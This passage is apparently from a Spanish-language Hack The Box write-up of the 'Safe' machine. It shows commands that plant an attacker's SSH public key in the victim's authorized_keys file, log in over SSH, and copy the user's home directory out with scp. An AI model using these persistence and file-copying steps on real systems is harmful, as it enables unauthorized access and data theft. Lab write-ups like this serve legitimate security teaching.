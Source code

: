 
```
echo "nuestraClavePública" >> /home/user/.ssh/authorized_keys
```

![](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/master/assets/2021-12-27-Safe-Hack-The-Box/31.png)

Una vez hecho esto, podemos conectarnos a través de `SSH` a la máquina víctima.

```
ssh user@10.10.10.147
```

![](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/master/assets/2021-12-27-Safe-Hack-The-Box/32.png)

En vista de que estamos conectados a la máquina vía `SSH`, podríamos intentar transferir los archivos del directorio `/home/user/`, haciendo uso de `SCP` (_Secure Copy Protocol_), aunque también pudimos haberlo hecho creando un servidor en la máquina remota mediante `Busybox`, y posteriormente, descargando las imágnes a través de `Wget`.

```
scp "user@10.10.10.147:/home/user/*" .
```
![](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/master/assets/2021-12-27-Safe-Hack-The-Box/33.png)
